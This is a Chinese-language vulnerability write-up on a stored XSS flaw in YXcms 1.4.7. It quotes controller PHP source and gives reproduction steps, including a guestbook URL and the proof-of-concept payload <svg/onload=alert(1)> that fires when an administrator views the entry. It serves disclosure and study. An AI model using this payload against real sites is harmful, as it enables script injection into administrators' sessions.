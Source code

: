 YXcms 1.4.7 储存型xss
=====================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

前台的文件源码protected/apps/default/controller/columnController.php

    public function index()
    {
        $ename=in($_GET['col']);
        if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
        $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
        $path=$sortinfo['path'].','.$sortinfo['id'];
        $deep=$sortinfo['deep']+1;
        $this->col=$ename;
        switch ($sortinfo['type']) {
            case 1://文章
                $this->newslist($sortinfo,$path,$deep);
                break;
            case 2://图集
                $this->photolist($sortinfo,$path,$deep);
                break;
            case 3://单页
                $this->page($sortinfo,$path,$deep);
                break;
            case 4://应用

                break;
            case 5://自定义

                break;
            case 6://表单
                $this->extend($sortinfo,$path,$deep);
                break;
            default:
                throw new Exception('未知的栏目类型~', 404);
                break;
        }
    }

后台的文件源码protected/apps/admin/controller/extendfieldController.php

    public function mesedit()
    {
        $tableid=intval($_GET['tabid']);
        if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
        $id=intval($_GET['id']);//信息id
        if(empty($tableid) || empty($id) ) $this->error('参数错误~');
        $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
        if(empty($tableinfo)) $this->error('自定义表不存在~');
        if (!$this->isPost()) {
           $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
           $this->info=$info;
           $this->tableid=$tableid;
           $this->id=$id;
           $this->tableinfo=$tableinfo;
           $this->display();
        }else{
           for($i=1;$i<count($tableinfo);$i++){
            if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
              $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
            else
              $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
           }
           if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
           else $this->error('信息修改失败~');
         }
    }

中间没什么过滤

### 复现

    http://0-sec.org/index.php?r=default/column/index&col=guestbook

payload：

    <svg/onload=alert(1)>

![](./resource/YXCMS1.4.7储存型xss/media/rId26.png)

然后登陆后台，查看审核

![](./resource/YXCMS1.4.7储存型xss/media/rId27.png)

点击编辑

image
